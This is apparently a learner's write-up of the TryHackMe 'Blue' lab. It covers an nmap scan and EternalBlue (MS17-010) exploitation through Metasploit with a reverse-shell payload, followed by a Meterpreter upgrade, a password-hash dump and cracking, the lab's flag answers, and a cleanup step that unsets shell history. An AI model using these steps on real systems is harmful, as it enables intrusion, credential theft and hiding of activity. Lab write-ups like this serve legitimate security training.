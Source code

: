 # [Blue]

## Basic Info
- **Platform**: TryHackMe
- **IP Address**: 10.10.5.87
- **Date**: 05/03/2025
- **Difficulty**: Easy
- **Tags**: Enumeration, Exploitation, Privilege Escalation

---

## Scanning & Enumeration

### Nmap
**Command:**
```bash
nmap -sVC -T4 -p- --open <ip> -oN blue.nmap
```

**Result Summary:**

```
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=Jon-PC
| Not valid before: 2025-05-02T14:26:05
|_Not valid after:  2025-11-01T14:26:05
|_ssl-date: 2025-05-03T15:50:43+00:00; -1s from scanner time.
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
49159/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: JON-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:50:17:50:99:b1 (unknown)
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
|_clock-skew: mean: 1h14m59s, deviation: 2h30m00s, median: -1s
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Jon-PC
|   NetBIOS computer name: JON-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-05-03T10:50:37-05:00
| smb2-time: 
|   date: 2025-05-03T15:50:37
|_  start_date: 2025-05-03T14:26:04
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)


```

---

## Service Analysis

### Port 445 - SMB
- **What’s running:** Microsoft SMB (Server Message Block)
- **Interesting files/directories:** 
- **Vulnerabilities identified:** ms17-010

---

## Exploitation

### Method Used:
- Vulnerability: ms17-010
- Exploit Used: exploit/windows/smb/ms17_010_eternalblue AKA eternalblue
- Shell Access Gained: Yes, reverse shell via Metasploit

**Commands:**
```bash
msfconsole - to start MetaSploit
	set the RHOST to <target_ip>
	set the LHOST to <your_ip>
	set payload windows/x64/shell/reverse_tcp #set the payload to get a reverse shell. 
	show targets  #to show potentional targets you can set which varies of the OS that the target has
	set target 1  #to select target os
	run #then run the exploit

```
---

```bash
CTRL+Z to background the shell
Then ran "search shell_to_meterpreter" #to have a stable meterpreter session
use 0 - to choose the exploit
sessions -l #to list the shells that we have.
set session 1
run #This upgrades the session
```
The session will look like it dropped, if you see 'stopping exploit/multi/handlder' it did not crash, instead run the following.

```bash

session 2 #this selects the upgraded session

```

We can see that our process ID belongs to powershell.exe and is running as NT AUTHORITY\SYSTEM.

then run:

```bash

hashdump

```

We can crack this hash using john with the following command after adding the hash (we just need the last part of the hash after the last “:”) to a file called “hash.txt” for the user Jon.

```bash

echo <hash> > hash.txt

```

Then now we have a password.

Now lets get the flags:

```bash
search -f *.txt - search for all the flags

```

```bash
cat "C:\\flag1.txt"
cat "c:\\Windows\\System32\\config\\flag2.txt"
cat "c:\\Users\\Jon\\Documents\\flag3.txt"
```

### User Enumeration
getuid
ps

### File Discovery
Flag 1 location: C:\flag1.txt <br>
Flag 2 location: c:\Windows\System32\config\flag2.txt <br>
Flag 3 location: c:\Users\Jon\Documents\flag3.txt

---

## Privilege Escalation

### Method Used:
Not applicable — already NT AUTHORITY\SYSTEM from exploit

---

## Flags

- **Flag 1** flag{access_the_machine}
- **Flag 2** flag{sam_database_elevated_access}
- **Flag 3** flag{admin_documents_can_be_valuable}

---

## Lessons Learned
- I've learned sometimes if you have a firewall setup on your machine that you will need to allow list the ports that your room is using to connect back to your machine.
- Within the upgraded shell, you sometimes need to use a double "\\" for the absolute filepath to "cat" out the file contents of files.
- 

---

## Cleanup (If applicable)
```bash
rm /tmp/<filename>
unset HISTFILE
```


## Summary/Understanding of what I've learned in this room
- Learned how to exploit the EternalBlue vulnerability (MS17-010) on a vulnerable Windows 7 machine using Metasploit.
- Even though the exploit grants SYSTEM immediately, upgrading to Meterpreter makes post-exploitation easier.
- If the box you are attacking has issues with being exploited, restarting it fixes these issues.
